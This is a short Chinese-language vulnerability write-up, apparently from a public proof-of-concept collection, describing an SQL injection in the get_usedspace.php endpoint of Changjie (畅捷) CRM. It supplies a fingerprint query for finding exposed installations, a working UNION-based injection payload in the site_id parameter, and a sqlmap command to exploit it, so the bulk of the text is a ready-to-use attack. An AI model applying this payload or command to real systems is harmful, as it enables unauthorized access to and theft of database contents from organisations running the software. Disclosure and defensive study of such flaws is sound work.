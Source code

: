 # 畅捷CRM get_usedspace.php SQL注入漏洞

## 漏洞描述

畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息

## 漏洞影响

```
畅捷CRM
```

## 网络测绘

```
title="畅捷CRM"
```

## 漏洞复现

登录页面

![image-20220525145239822](./images/202205251452933.png)

验证POC

```
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![image-20220525145324633](./images/202205251453704.png)

使用Sqlmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```